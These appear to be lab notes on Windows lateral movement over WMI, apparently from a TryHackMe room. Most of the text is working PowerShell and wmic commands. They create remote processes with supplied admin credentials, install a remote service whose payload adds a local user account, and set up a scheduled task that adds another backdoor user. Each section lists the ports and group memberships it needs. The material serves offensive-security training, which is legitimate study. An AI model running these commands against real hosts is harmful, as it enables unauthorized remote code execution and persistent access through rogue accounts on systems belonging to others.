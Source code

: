 Remote Process Creation Using WMI



    Ports:
        135/TCP, 49152-65535/TCP (DCERPC)
        5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
    Required Group Memberships: Administrators


$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}

wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe" 


Creating Services Remotely with WMI


    Ports:
        135/TCP, 49152-65535/TCP (DCERPC)
        5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
    Required Group Memberships: Administrators




Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}

And then, we can get a handle on the service and start it with the following commands:

$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService

Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete



Creating Scheduled Tasks Remotely with WMI


    Ports:
        135/TCP, 49152-65535/TCP (DCERPC)
        5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
    Required Group Memberships: Administrators



# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"
